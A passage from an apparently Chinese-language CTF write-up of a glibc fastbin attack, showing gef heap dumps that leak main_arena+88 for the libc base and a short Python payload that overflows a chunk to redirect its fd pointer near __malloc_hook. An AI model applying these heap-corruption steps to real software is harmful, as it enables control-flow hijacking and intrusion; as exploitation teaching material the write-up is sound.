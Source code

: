 chunk 2 写入了 fd,bk 通过 `dump chunk 1` 我们就可以得到 main_arena+88 的地址
```c
gef➤  x/32gx 0x00005642e5bb1000
0x5642e5bb1000:	0x0000000000000000	0x0000000000000071 => chunk 0
0x5642e5bb1010:	0x6161616161616161	0x6161616161616161
0x5642e5bb1020:	0x6161616161616161	0x6161616161616161
0x5642e5bb1030:	0x6161616161616161	0x6161616161616161
0x5642e5bb1040:	0x6161616161616161	0x6161616161616161
0x5642e5bb1050:	0x6161616161616161	0x6161616161616161
0x5642e5bb1060:	0x6161616161616161	0x6161616161616161
0x5642e5bb1070:	0x0000000000000000	0x0000000000000071 => chunk 1 header 
0x5642e5bb1080:	0x6262626262626262	0x6262626262626262
0x5642e5bb1090:	0x6262626262626262	0x6262626262626262
0x5642e5bb10a0:	0x6262626262626262	0x6262626262626262
0x5642e5bb10b0:	0x6262626262626262	0x6262626262626262
0x5642e5bb10c0:	0x0000000000000000	0x0000000000000111 => chunk 2 
0x5642e5bb10d0:	0x00007f99f3137b78	0x00007f99f3137b78 => fd bk 
0x5642e5bb10e0:	0x0000000000000000	0x0000000000000071
0x5642e5bb10f0:	0x0000000000000000	0x0000000000000000
```

 main_arena+88
```c
gef➤  x/16gx 0x00007f99f3137b78
0x7f99f3137b78 <main_arena+88>:	0x00005642e5bb1230	0x0000000000000000
0x7f99f3137b88 <main_arena+104>:	0x00005642e5bb10c0	0x00005642e5bb10c0
0x7f99f3137b98 <main_arena+120>:	0x00007f99f3137b88	0x00007f99f3137b88
0x7f99f3137ba8 <main_arena+136>:	0x00007f99f3137b98	0x00007f99f3137b
```

泄露计算得到 `libc` 基址
### 修改控制流
通过堆溢出修改 `chunk 1` 的 fd 指针指向 `malloc_hook`  附近
```python
free(1)
payload = 'a' * 0x60 + p64(0) + p64(0x71) + p64(malloc_hook - 27 - 0x8) + p64(0)
    fill(0, 0x60 + 0x10 + 0x10, payload)
```
会将 `chunk 1` 放入 `fastbin` ，再通过堆溢出修改 `chunk 1`的 `fd` 指针到 `malloc_hook` 附近
此时 `fastbin`:
`Fastbins[idx=5, size=0x60]  ←  Chunk(addr=0x559f678d8080, size=0x70, flags=PREV_INUSE) `
```c
gef➤  x/32gx 0x000056471f81c000
0x56471f81c000:	0x0000000000000000	0x0000000000000071  => chunk 0 
0x56471f81c010:	0x6161616161616161	0x6161616161616161
0x56471f81c020:	0x6161616161616161	0x6161616161616161
0x56471f81c030:	0x6161616161616161	0x6161616161616161
0x56471f81c040:	0x6161616161616161	0x6161616161616161
0x56471f81c050:	0x6161616161616161	0x6161616161616161
0x56471f81c060:	0x6161616161616161	0x6161616161616161
0x56471f81c070:	0x0000000000000000	0x0000000000000071 => chunk 1
0x56471f81c080:	0x00007fbfe59beaed	0x0000000000000000 => fake fd
0x56471f81c090:	0x6262626262626262	0x6262626262626262
0x56471f81c0a0:	0x6262626262626262	0x6262626262626262
0x56471f81c0b0:	0x6262626262626262	0x6262626262626262
0x56471f81c0c0:	0x0000000000000000	0x0000000000000111 => chunk 2
0x56471f81c0d0:	0x00007fbfe59beb78	0x00007fbfe59beb78
0x56471f81c0e0:	0x0000000000000000	0x0000000000000071
0x56471f81c0f0:	0x0000000000000000	0x0000000000000000
```

